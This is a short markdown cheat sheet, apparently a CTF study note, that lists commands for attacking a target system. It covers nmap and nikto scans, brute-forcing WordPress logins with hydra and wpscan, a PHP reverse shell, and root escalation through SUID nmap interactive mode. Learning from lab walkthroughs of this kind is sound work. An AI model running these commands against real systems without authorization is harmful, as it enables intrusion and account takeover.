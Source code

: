 ```yaml
---
header:
  
layout: single
classes: wide
author_profile: false
categories:
  - Hacking
tags:
  - capture-the-flag
  - hacking
  - cryptography
  - web-security
  - image-forensics
  - Pentesting
---
```


# System Hacking
* To discover the system in the network, use either Nmap or Netdiscover
* To scan for vulnerabilities use nikto.
  * Command to run : `nikto -h <HOST_IP>`
* To scan for vulnerbilities we can use Nmap also.
  * `namp -sV <HOST_IP>`
  * `nmap --script vuln <HOST_IP>`  -- Useful for getting Vulnerabilities on system
  * `nmap -sS -T4 -A -p- <HOST_IP>` -- Useful for All Ports, SYN Scan and OS detection
  * `nmap --script ssl-enum-ciphers -p 443  <HOST_IP>` -- Gives rating for SSL Ciphers
* If port 80 is open, use robots.txt to find any hidden flags.
* If Webserver is running, we can find the Server version using
  * `curl --header <SERVER_IP>`
* If we want to find exploit of a particular version, use the command
  * `searchsploit apache 1.2.4`
* If /wp-login.php is found in the Vulnerability scanning, it can be Wordpress site.
* Use Burpsuite to see login data
* Use Hydra to bruteforce username
  * `hydra -V -l wordlist.dic -p 123 <HOST_IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username`
* Use wpscan tool to scan Wordpress Website
  * `gem install wpscan`
  * `wpscan --url <HOST_IP> --usernames <USERNAME_FOUND> --passwords wordlist.dic`
* We can use metasploit to exploit the server
  * use exploit/unix/webapp/wp_admin_shell_upload -- Does not work
  * pentestmonkey.net/tools/web-shells/php-reverse-shell
* Command to get Bash shell
  * `python -c "import pty;pty.spawn('/bin/bash')"`
* Privilige Escalation: Now if we found the hash for the priviliged user, we can use crackstation.net/ to get the password.
* To find all the files which current user can interact use the command
  * `find / -perm -4000 2>/dev/null`
* If there is any program which we can get to use as root, we need to target that.
  ```
  robot@linux:/$ nmap --interactive
  nmap --interactive
  Starting nmap V. 3.81 ( www.insecure.org/nmap/ )
  Welcome to Interactive Mode -- press h <enter> for help
  nmap> !sh
  !sh
  # id
  id
  uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
  ```
* If we got access to VIM (MAN Pages), we can run `!<Command>` to execute directly in the shell.